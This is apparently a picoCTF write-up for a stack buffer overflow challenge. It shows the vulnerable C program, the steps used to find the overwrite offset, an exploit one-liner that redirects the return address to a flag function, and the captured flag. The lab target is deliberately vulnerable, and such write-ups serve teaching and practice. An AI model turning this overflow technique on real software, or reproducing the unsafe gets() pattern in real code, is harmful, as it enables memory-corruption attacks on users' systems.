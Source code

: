 # OverFlow 1
## Question
>You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](files/vuln)? You can find it in `/problems/overflow-1_2_305519bf80dcdebd46c8950854760999` on the shell server. [Source](files/vuln.c).

## Hint
>Take control that return address

>Make sure your address is in Little Endian.

# Solution
## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Vulnerability
The code is vulnerable to a buffer overflow (`gets(buf)`). As the buffer is 64 bytes, let's try to create a segfault.

We send 68 bytes:
~~~~
$ python -c "print('A'*68)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
~~~~

Not enough to create a segfault. Let's add 4 more bytes:
~~~~
$ python -c "print('A'*72)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Segmentation fault (core dumped)
~~~~

OK, now we now there is a segfault at 72 bytes (`'A'*72`). Now, we need to add 4 bytes for the return address (`'B'*4`), and to concatenate the address of `flag`:
~~~~
$ readelf -s vuln | grep flag
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
$ python -c "import pwn; print(pwn.p32(0x80485e6))"
b'\xe6\x85\x04\x08'
~~~~

Now, we need to concatenate all these:
* `'A'*72`: to overflow the buffer
* `'B'*4`: for the return address
* `'\xe6\x85\x04\x08'`: address of `flag` where we want to jump

## Exploit
~~~~
$ python -c "print('A'*72 + 'B'*4 + '\xe6\x85\x04\x08')" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}`
